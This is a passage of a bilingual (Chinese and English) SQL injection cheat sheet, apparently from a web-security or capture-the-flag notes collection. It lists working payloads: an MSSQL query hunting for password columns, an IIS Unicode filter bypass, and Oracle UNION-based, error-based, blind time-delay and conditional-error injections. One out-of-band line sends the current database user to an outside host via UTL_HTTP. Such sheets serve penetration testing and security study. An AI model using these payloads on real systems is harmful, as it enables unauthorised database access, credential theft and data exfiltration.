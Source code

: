 - 快速查找帶關鍵字的表
    - `SELECT sysobjects.name as tablename, syscolumns.name as columnname FROM sysobjects JOIN syscolumns ON sysobjects.id = syscolumns.id WHERE sysobjects.xtype = 'U' AND (syscolumns.name LIKE '%pass%' or syscolumns.name LIKE '%pwd%' or syscolumns.name LIKE '%first%');`

- Unicode繞過
    - IIS 對 Unicode 編碼是可以解析的，即 s%u0065lect 會被解析為 select

## Oracle
### UNION-Based
- Determining the number of columns
    - Column 型態必須相同，可用`NULL`來避免
    - 所有的 `SELECT` 必須包含有效的 `FROM` 
    - `UNION SELECT 1, 'aa', null FROM dual`
- Database contents
    - 庫名
        - `SELECT DISTINCT OWNER FROM ALL_TABLES`
    - 表名
        - `' UNION SELECT table_name,NULL FROM all_tables--`
        - `SELECT OWNER, TABLE_NAME FROM ALL_TABLES`
    - Column
        - `' UNION SELECT column_name,NULL FROM all_tab_columns WHERE table_name='USERS_ABCDEF'--`
        - `SELECT OWNER, TABLE_NAME, COLUMN_NAME FROM ALL_TAB_COLUMNS`
        
- Retrieve interesting data
    - `' UNION SELECT USERNAME_ABCDEF, PASSWORD_ABCDEF FROM USERS_ABCDEF--`
### Error-Based
- `SELECT * FROM news WHERE id=1 and CTXSYS.DRITHSX.SN(user, (SELECT banner FROM v$version WHERE rownum=1))=1`
### Blind
- Conditional Errors
    - `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN to_char(1/0) ELSE NULL END FROM dual`
- Conditional Time Delay
    - `dbms_pipe.receive_message(('a'),10)`
    - `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual`
### Out-of-band
- `UTL_HTTP.request('http://kaibro.tw/'||(select user from dual))=1`
### Other Knowledge
- substring
    - `SUBSTR("abc", 1, 1) => 'a'`
- 空白字元
    - `00 0A 0D 0C 09 20`
- semicolon
    - `%3b`
- IF語句
    - `IF condition THEN true-part [ELSE false-part] END IF`
- 註解：
    - `--`
- 連接字串：
    - `||`
- OFFSET
    - SELECT owner FROM all_tables OFFSET 1 ROWS
- 其它
    - `SYS.DATABASE_NAME`
        - current database
    - `USER`
        - current user
